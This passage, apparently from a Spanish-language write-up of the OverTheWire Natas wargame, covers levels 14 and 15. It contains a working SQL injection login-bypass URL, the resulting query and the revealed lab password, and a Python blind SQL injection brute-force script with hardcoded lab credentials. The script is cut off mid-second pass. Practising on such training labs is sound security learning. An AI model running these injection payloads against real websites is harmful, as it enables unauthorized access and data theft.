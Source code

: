 http://natas14.natas.labs.overthewire.org/?debug&username=user%22or%20%221%22=%221&password=asdf%22or%20%221%22=%221&debug

 Executing query: SELECT * from users where username="user"or "1"="1" and password="asdf"or "1"="1"
Successful login! The password for natas15 is AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J

# natas15

Blind SQL injection. Toca hacer fuerza bruta, mejor con python.

Hago una ñapa con un script en dos pasadas. En la primera, miro qué caracteres hay mediante una consile like %char%:

```
#!/usr/bin/env python
import requests

# 'username': "natas15"
# 'password': "AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J"

def is_true(p):
    url = "http://natas15.natas.labs.overthewire.org?debug"
    headers = {"Authorization": "Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg=="}
    payload = {'username': 'natas16" and password like binary "%' + p +'%', 'debug': 'yes'}

    r = requests.post(url, data=payload, headers=headers )

    # print r.text
    if "exists" in r.text:
        return True

# 1st pass
chars = ""
for i in map(chr, range(65, 91) + range(97,123) + range(48, 58)):
   if is_true(i):
       chars = chars + i
print chars
```

Con esto construyo la lista de caracteres que aparecen en la password: `chars = "BEHINORWacehijmnpqtw03569"`

Ahora puedo hacer una segunda pasada iterando por la lista de esos caracteres:

```
#!/usr/bin/env python
import requests

# 'username': "natas15"
# 'password': "AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J"

def is_true(p):
    url = "http://natas15.natas.labs.overthewire.org?debug"
    headers = {"Authorization": "Basic bmF0YXMxNTpBd1dqMHc1Y3Z4clppT05nWjlKNXN0TlZrbXhkazM5Sg=="}
    # payload = {'username': 'natas16" and password like binary "%' + p +'%', 'debug': 'yes'}
    payload = {'username': 'natas16" and password like binary "' + p +'%', 'debug': 'yes'}

    r = requests.post(url, data=payload, headers=headers )

    # print r.text
    if "exists" in r.text:
        return True

# 1st pass
# chars = ""
# for i in map(chr, range(65, 91) + range(97,123) + range(48, 58)):
```